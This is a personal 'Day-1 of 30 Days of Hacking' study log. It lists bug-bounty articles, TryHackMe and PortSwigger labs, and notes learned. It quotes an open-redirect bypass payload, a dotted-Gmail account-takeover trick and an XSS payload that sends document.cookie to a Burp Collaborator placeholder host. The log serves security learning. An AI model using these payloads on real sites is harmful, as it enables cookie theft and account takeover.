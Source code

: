 # Day-1 (30-Days-Of-Hacking)

### 1. Read 3 Article: [DONE]

- https://medium.com/@tushar.tilak.sharma/a-tale-of-open-redirection-to-stored-xss-6ad426ae9d43
- https://medium.com/techiepedia/p5-to-p1-intresting-account-takeover-6e59b879494b
- https://medium.com/@tushar.tilak.sharma/how-i-turned-a-self-xss-into-one-click-account-takeover-through-bad-business-logic-ff003c30e96

#### Learned:

1. From article 1:
   - Got to know Open Direcction Bypass Payload: target. com/<>//google.com

2. From Article 2:
   - ATO Methadology: So I Sign up with an email: abc.ishack@gmail.com. Again I tried to sign up with the email: abcis.hack@gmail.com[ Mind the place of [.] ]. And I was able to sign up with the 2 accounts.

3. From Article 3:
   - XSS Payload to Steal Cookie : ‘“><img src=x onerror=fetch(‘//(your burp collab id here).burpcollaborator.net/?c=’%2Bdocument.cookie)>

### 2. TryHackMe Labs: [DONE]

- [X] Solved Task 1, Task 2, Task 3, Task 4, Task 5 Of **METASPLOIT** : https://tryhackme.com/room/rpmetasploit 
- [X] Solved Task 1, Task 2, Task 4, Task 5, Of : **Dirty Pipe** : https://tryhackme.com/room/dirtypipe  (Unable to get root flag Will try Next day)

### 3. PortSwigger Labs: [DONE]

- [X] **Directory traversal 2/6**
 -  Lab: File path traversal, simple case (https://portswigger.net/web-security/file-path-traversal/lab-simple)
 -  Lab: File path traversal, traversal sequences blocked with absolute path bypass (https://portswigger.net/web-security/file-path-traversal/lab-absolute-path-bypass)

### 4. Youtube Video: {DONE]

- Watched : OrwaGodFather Part 1 Video : https://www.youtube.com/watch?v=06JYV06y-hU
